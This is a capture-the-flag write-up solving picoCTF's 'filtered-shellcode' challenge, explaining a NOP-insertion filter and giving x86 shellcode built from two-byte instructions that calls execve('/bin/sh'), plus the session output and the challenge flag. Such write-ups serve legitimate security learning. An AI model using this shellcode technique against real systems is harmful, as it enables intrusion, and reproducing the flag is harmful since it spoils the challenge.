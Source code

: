 # filtered-shellcode

Shellcode

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/filtered-shellcode/fun'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

The checksec does not really matter since the binary will execute the input for us as machine instructions. 

## Concept

The concept is to provide shellcode to the binary that uses instructions which are at most 2-byte long. The binary will execute the shellcode for us. 

## Filter

The filter is applied in the `execute` function, with the following code segment (taken from Ghidra, with variable renames)

```c
void execute(..., ...){
  
  ...

  j = 0;
  for (i = 0; i < buf_len_times2_1; i = i + 1) {
    if ((int)i % 4 < 2) {
      auStack_2c[i + iVar1] = buf[j];
      j = j + 1;
    }
    else {
      auStack_2c[i + iVar1] = 0x90;
    }
  }

  ...

}
```

`auStack_2c` is where the edited shellcode is stored, and `buf` is our input where the original shellcode resides. 

To summarize the mechanism, before execution, `execute` separates the provided shellcode into 2-byte chunks and injects 2-byte NOP slides between every chunk. This renders unpredictable any instruction that is more than 2 bytes long, effectively preventing those instructions from being used. 

One byte instructions have to be NOP-appended or paired with another one-byte instruction to ensure that the subsequent two-byte instruction (if any) is not split apart. 

## API Requirements for `execve('/bin/sh')`

See the [corresponding section in the ropfu writeup](../ropfu/solve.md#api-requirements-for-execvebinsh)

However, this time, through trial-and-error, it is found that we need to set `edx` to 0 (it cannot be the value that occurs at runtime). 

## Pushing "/bin/sh\x00" onto the Stack

We can't push individual bytes onto the stack, and pushing 2 bytes at once takes too many instructions, so we need to package "/bin/sh\x00" into 4-byte chunks (stored in a register, and I chose to use `eax`) for pushing. 

To achieve this with instructions at most 2 bytes long, for each 4-byte chunk, the following is done
1. Set `al` to the last byte in the chunk
2. Shift `eax` left by 8
3. Repeat steps 1 and 2 until the 4-byte chunk is stored in `eax`
    - Note that step 2 only needs to be done thrice, not four times
4. Push `eax`
    - This is an unpaired one-byte instruction, so we append a NOP to it

Note, however, that shifting a register left by any value greater than 1 is an instruction that will require more than 2 bytes. Thus, for step 2, instead of using `shl eax, 0x8`, we perform `shl eax, 0x1` eight times. 

## Shellcode

The shellcode is long because the instructions involving the pushing of "/bin/sh\x00" are very repetitive. They have been omitted to highlight the other operations. 

Additionally, `nop` instructions have been added to ensure that every 1-byte instruction is paired. This then ensures that no 2-byte instruction is split apart. 

```x86asm
0:  b0 00                   mov    al,0x0  ; Push "/bin/sh\x00"
2:  d1 e0                   shl    eax,1
4:  d1 e0                   shl    eax,1

...

6c: d1 e0                   shl    eax,1
6e: d1 e0                   shl    eax,1
70: b0 2f                   mov    al,0x2f
72: 50                      push   eax
73: 90                      nop
74: 54                      push   esp      ; ebx -> "/bin/sh\x00"
75: 5b                      pop    ebx
76: 31 c0                   xor    eax,eax  ; eax = 0xb
78: b0 0b                   mov    al,0xb
7a: 31 c9                   xor    ecx,ecx  ; ecx = 0x0
7c: 31 d2                   xor    edx,edx  ; edx = 0x0
7e: cd 80                   int    0x80
```

## Flag

```bash
[+] Opening connection to mercury.picoctf.net on port 26072: Done
[*] Switching to interactive mode
$ cat flag.txt
picoCTF{th4t_w4s_fun_bb572e7da674111e}
```